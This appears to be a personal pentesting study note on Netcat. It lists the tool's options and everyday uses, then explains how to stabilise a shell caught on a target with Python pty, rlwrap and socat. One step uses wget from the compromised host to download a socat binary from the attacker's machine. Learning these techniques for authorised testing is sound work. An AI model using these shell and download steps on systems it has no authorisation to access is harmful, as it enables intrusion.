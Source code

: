 Netcat is a networking tool that's used for reading from and writing to network connections using TCP or UDP

* Can function as a client that connects to a listening port
* Can function as a server that listens on a port of your choice

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Options

| Netcat Option | Purpose |
| --- | --- |
| -l | Listen mode |
| -p | Specify the port number (Port numbers less than 1024 require root privileges to listen on) |
| -n | Numeric only (No resolution of hostnames via DNS) |
| -v | Verbose output |
| -vv | Very verbose output |
| -k | Keep listening after a client disconnects from the port |

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Features

| Netcat Feature | Description | 
| --- | --- |
| Port Scanning | Scan for open ports on a target system |
| File Transfer | Send and receive files between two hosts |
| Chatting | Create a simple chat server between two hosts |
| Port Listening | Listen on a specific port for incoming connections |
| Banner Grabbing | Fetch information from services running on open ports |
| Proxying | Can act as a simple network proxy |

## Port Scanning 

```Bash
nc -zv <hostname> <port_range>
```

## File Transfer 

```Bash
# From sender's machine
nc -lp <port_number> < <file_to_send>

# From receiver's machine
nc <hostname> <port_number> > <file_to_receive> 
```

## Chatting

```Bash
# From listening machine
nc -lp <port_number>

# From connecting machine
nc <hostname> <port_number>
```

## Port Listening (Netcat as a Server)

```Bash
nc -lvnp <port_number>
```

## Banner Grabbing (Netcat as a Client)

```Bash
nc <hostname> <port_number>
```

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Netcat Shell Stabilization

* Non-interactive by default
* Very unstable by default (Ex: *Pressing CTRL + C kills the whole thing*) due to netcat shells being processes running inside a terminal, rather than being bonafide terminals 

## Netcat Shell Stabilization Using Python

```Bash
# 1. Spawn a better featured shell using Python
python -c 'import pty;pty.spawn("/bin/bash")'

# 2. Give yourself access to term commands
export TERM=xterm

# 3. CTRL + Z to background the shell

# 4. Turn off our own terminal echo and then foreground the shell
stty raw -echo; fg
```

* Only applicable to Linux boxes since they nearly always have Python installed by default
* Return your own terminal back to normal by entering `reset` in your own terminal

## Netcat Shell Stabilization Using rlwrap

```Bash
# 1. Install rlwrap
sudo apt -y install rlwrap

# 2. Use rlwrap to invoke a slightly different listener
rlwrap nc -lvnp <port_number>
```

* rlwrap gives us access to history, tab autocompletion, and the arrow keys immediately upong receiving a shell (Some manual stabilisation may be required if you want to be able to use CTRL + C inside the shell)
* Particularly used when dealing with Windows shells since they're usually difficult to stabilise

## Netcat Shell Stabilization Using Socat

```Bash
# 1. Create a webserver on the attacking machine inside the directory containing your socat static compiled binary
sudo python3 -m http.server 80

# 2. Use the netcat shell that's connected to the target machine to download the socat static compiled binary
wget <attacking_machine_address>/<socat_static_compiled_binary_file> -O /tmp/socat
```

* Limited to Linux targets (Socat shells on Windows are usually no more stable than a netcat shell)
